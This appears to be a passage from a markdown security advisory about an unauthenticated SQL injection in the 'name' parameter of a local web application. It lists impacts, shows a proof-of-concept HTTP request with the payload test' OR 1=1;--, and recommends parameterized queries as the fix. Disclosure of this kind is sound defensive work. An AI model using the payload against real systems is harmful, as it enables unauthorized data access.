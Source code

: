 This flaw is present in routes that accept user input without validation, making the system vulnerable to **SQL injection attacks**.

<a name="impact"></a>
### **Impact**
- **Data Exposure**: Attackers can retrieve sensitive user and system data.
- **Data Manipulation**: Unauthorized users may modify, insert, or delete records.
- **Privilege Escalation**: Depending on database permissions, attackers may gain higher access rights.
- **Denial of Service (DoS)**: An attacker can craft malicious queries that cause the database to become unresponsive.
- **Complete System Compromise**: If the database has stored procedures that allow command execution, it may lead to **remote code execution**.

Given that authentication is **not required** to exploit this vulnerability, the risk is significantly increased.

<a name="proof-of-concept"></a>
### **Proof of Concept**
<a name="valid-request"></a>
#### **Valid Request:**
```
GET /?name=test HTTP/1.1
Host: localhost:4000
Referer: http://localhost:4000/?name=a
Cookie: _apothecary_key=<session_token>
```
This request returns normal application responses.

<a name="exploitable-request"></a>
#### **Exploitable Request:**
```
GET /?name=test%27+OR+1%3D1%3B-- HTTP/1.1
Host: localhost:4000
Referer: http://localhost:4000/?name=test
Cookie: _apothecary_key=<session_token>
```
**Payload Used:**
```
test' OR 1=1;--
```
By injecting `OR 1=1`, an attacker forces the SQL query to always return **true**, potentially exposing all records from the database.

<a name="remediation"></a>
### **Remediation**
1. **Use Parameterized Queries**
   - Replace dynamic SQL queries with **parameterized queries**.
2. **Input Validation & Sanitization**
   - Restrict input characters and validate expected formats to prevent SQL manipulation.
---
---

